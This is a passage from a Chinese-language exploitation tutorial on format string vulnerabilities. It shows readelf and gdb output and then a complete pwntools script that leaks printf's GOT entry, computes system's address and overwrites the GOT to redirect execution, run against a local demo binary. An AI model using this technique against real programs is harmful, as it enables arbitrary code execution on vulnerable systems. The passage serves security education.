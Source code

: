 我们看到输入 `printf()` 的变量 `arg[0]: 0xffffd1f0 ("AAAA\n")` 在栈的第 5 行，除去第一个格式化字符串，即偏移量为 4。

读取重定位表获得 `printf()` 的 GOT 地址（第一列 Offset）：

```text
$ readelf -r a.out

Relocation section '.rel.dyn' at offset 0x2f4 contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ff8  00000406 R_386_GLOB_DAT    00000000   __gmon_start__
08049ffc  00000706 R_386_GLOB_DAT    00000000   stdout@GLIBC_2.0

Relocation section '.rel.plt' at offset 0x304 contains 5 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000107 R_386_JUMP_SLOT   00000000   read@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a014  00000307 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
0804a018  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a01c  00000607 R_386_JUMP_SLOT   00000000   memset@GLIBC_2.0
```

在 gdb 中获得 `printf()` 的虚拟地址：

```text
gdb-peda$ p printf
$1 = {<text variable, no debug info>} 0xf7e26bf0 <printf>
```

获得 `system()` 的虚拟地址：

```text
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e17060 <system>
```

好了，演示完怎样用手工的方式得到构造 exp 需要的信息，下面我们给出使用 pwntools 构造的完整漏洞利用代码：

```python
# -*- coding: utf-8 -*-
from pwn import *

elf = ELF('./a.out')
r = process('./a.out')
libc = ELF('/usr/lib32/libc.so.6')

# 计算偏移量
def exec_fmt(payload):
    r.sendline(payload)
    info = r.recv()
    return info
auto = FmtStr(exec_fmt)
offset = auto.offset

# 获得 printf 的 GOT 地址
printf_got = elf.got['printf']
log.success("printf_got => {}".format(hex(printf_got)))

# 获得 printf 的虚拟地址
payload = p32(printf_got) + '%{}$s'.format(offset)
r.send(payload)
printf_addr = u32(r.recv()[4:8])
log.success("printf_addr => {}".format(hex(printf_addr)))

# 获得 system 的虚拟地址
system_addr = printf_addr - (libc.symbols['printf'] - libc.symbols['system'])
log.success("system_addr => {}".format(hex(system_addr)))

payload = fmtstr_payload(offset, {printf_got : system_addr})
r.send(payload)
```